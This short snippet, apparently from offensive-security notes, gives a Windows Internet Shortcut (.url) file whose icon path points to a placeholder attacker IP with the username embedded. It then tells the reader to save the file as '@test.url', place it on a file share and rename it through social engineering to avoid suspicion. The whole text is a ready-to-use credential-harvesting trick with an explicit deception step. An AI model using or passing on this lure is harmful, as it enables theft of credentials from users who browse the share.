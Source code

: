 
```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<attackerip>\%USERNAME%.icon
IconIndex=1
```
Save this as "@test.url" and send through file share.
Change the file name based on social engineering to avoid suspicion 